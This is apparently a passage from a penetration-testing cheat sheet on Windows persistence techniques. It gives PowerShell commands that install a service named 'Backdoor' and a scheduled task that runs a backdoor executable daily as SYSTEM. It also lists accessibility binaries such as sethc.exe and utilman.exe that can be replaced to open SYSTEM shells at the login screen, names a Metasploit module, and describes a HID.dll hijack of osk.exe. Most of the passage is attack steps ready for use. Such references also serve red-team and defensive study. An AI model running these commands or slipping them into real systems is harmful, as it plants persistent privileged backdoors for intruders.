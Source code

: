 ### Services

Create a service that will start automatically or on-demand.

```powershell
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks

Scheduled Task to run as SYSTEM, everyday at 9am.

```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

### Binary Replacement

#### Binary Replacement on Windows XP+

| Feature             | Executable                            |
|---------------------|---------------------------------------|
| Sticky Keys         | C:\Windows\System32\sethc.exe         |
| Accessibility Menu  | C:\Windows\System32\utilman.exe       |
| On-Screen Keyboard  | C:\Windows\System32\osk.exe           |
| Magnifier           | C:\Windows\System32\Magnify.exe       |
| Narrator            | C:\Windows\System32\Narrator.exe      |
| Display Switcher    | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher        | C:\Windows\System32\AtBroker.exe      |

In Metasploit : `use post/windows/manage/sticky_keys`

#### Binary Replacement on Windows 10+

Exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable.

Create a malicious **HID.dll** in  `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.

### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.
